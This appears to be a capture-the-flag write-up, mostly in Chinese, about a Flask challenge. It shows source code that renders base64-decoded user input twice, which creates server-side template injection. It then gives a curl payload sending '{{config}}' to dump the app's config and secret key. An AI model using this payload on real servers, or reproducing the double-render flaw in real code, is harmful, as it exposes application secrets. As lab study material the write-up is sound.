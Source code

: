 #Web #python #flask #SSTI 

```python
from flask import Flask, request, render_template, render_template_string
import os
import base64

app = Flask(__name__)
app.secret_key = os.getenv('FLAG')


def render(result, status, lastInput):
    return render_template('./index.html',
                           result=result,
                           status=status,
                           lastInput=lastInput)


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            return render_template_string(
                render(base64.b64decode(request.form.get('expr')).decode('utf-8'), 'success',
                       request.form.get('expr')))
        except:
            return render('Dame dane~', 'failure', request.form.get('expr'))
    else:
        return render('', '', '')


app.run(host='0.0.0.0', port=1234)
```

这题源码是后来放出的，没有源码的话也可以通过`Server`响应头推测出是`flask`作为后端。

代码逻辑中完成base64解码的用户输入在渲染了一次之后又经过了一次多余的渲染，于是有了SSTI（Server-Side Template Injection）的可能性。

利用方式是构造模板字符串，base64编码后作为用户输入，服务器解码后渲染一次无恙，第二次渲染便遇到了我们构造的非法模板。

另一个知识点是`flask`的配置在可以通过全局变量`config`获取。

```shell
curl --data expr="$(echo '{{config}}' | base64)" http://<host>:<port>/
```

![[Pasted image 20230508010747.png|1000]]